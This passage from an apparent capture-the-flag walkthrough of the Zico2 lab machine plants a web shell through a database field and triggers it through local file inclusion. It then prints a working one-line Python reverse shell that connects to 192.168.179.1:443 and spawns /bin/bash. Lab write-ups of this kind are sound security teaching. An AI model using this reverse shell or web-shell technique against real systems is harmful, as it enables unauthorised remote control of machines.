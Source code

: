 ![](/assets/images/zico2/screenshot-10.png)

We insert a web shell into the **input** column.

![](/assets/images/zico2/screenshot-11.png)

Using the LFI vulnerability we can include the **hack.php** database, to execute the **whoami** command.

![](/assets/images/zico2/screenshot-12.png)

We need to set up a netcat listener on port 443, and run the following python reverse shell.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](/assets/images/zico2/screenshot-13.png)
